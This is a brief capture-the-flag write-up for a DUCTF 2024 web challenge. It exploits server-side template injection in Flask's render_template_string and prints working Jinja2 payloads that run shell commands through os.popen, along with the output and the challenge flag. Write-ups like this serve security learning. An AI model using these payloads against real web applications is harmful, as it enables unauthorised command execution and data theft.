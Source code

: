 # Parrot the emu - Web

## Description
It is so nice to hear Parrot the Emu talk back

Author: richighimi

https://web-parrot-the-emu-4c2d0c693847.2024.ductf.dev

## Solution

{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}

FLAG: `DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}`

## Notes

Flask `render_template_string()`

SSTI 

https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/

{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}

app.py flag requirements.txt static templates 

{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}

DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}